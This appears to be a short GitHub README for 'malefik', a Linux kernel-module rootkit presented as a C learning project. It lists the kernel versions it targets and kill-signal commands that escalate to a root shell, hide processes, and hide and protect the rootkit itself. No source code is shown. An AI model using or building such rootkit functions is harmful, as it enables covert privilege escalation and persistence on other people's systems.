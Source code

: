 *Learning C purpose*
# malefik
Malicious LKM for multiple kernel, simple rootkit (bitflip, hidep, SIGRAPE, ...)

### on 5.10 kernel (Debian 11)

Working Gracefully !!!

### on 4.19 kernel (Debian 10)

...

### on 4.9 kernel (Debian 9)

...


## Usage :

malefik redirect some kill signals to do something special things for you UwU.

Such as;
```
kill -64 <pid> : Escalate to root shell.
kill -31 <pid> : Hide/unhide process.
kill -32 1     : Hide and protect malefik rootkit.
kill -33 1     : Unhide and unprotect malefik rootkit.
```
